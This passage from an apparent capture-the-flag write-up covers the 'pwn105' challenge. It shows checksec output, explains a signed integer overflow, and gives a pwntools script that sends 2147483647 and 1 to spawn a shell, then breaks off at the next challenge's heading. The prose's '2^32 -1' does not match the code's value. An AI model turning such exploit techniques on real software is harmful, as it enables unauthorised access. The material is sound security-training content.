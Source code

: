 ### Binary metadata

```shell
root@c18329d2a566:~# checksec ./pwn105.pwn105
[*] '/root/pwn105.pwn105'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This binary looks quite well protected.

### Code (disasm)

![pwn-image]({{ '/' | absolute_url }}assets/images/pwn101-08.png)

The program takes 2 numbers, and returns the sum of them The logic seems to suggest that a shell will be spawn with the right “combination” of values.

### Exploit

Integer overflow.

We just need to trick the program into believing that we entered two positive numbers, but their sum is negative.

To do so, we need to overflow the signed integer in `var_ch` adding, for instance, 2^32 -1 and 1.

```python
#!/usr/bin/env python3
#
# Exploit: integer overflow
# Overflow an integer to make the executable print the flag

from pwn import *


context.update(arch="amd64", os="linux")

process = process("./pwn105.pwn105")
# process = remote("xxx", 9005)

process.clean()
process.sendline("2147483647")
process.clean()
process.sendline("1")

process.clean()
process.interactive()
```

## PWN106 - Format string to dump variable falue
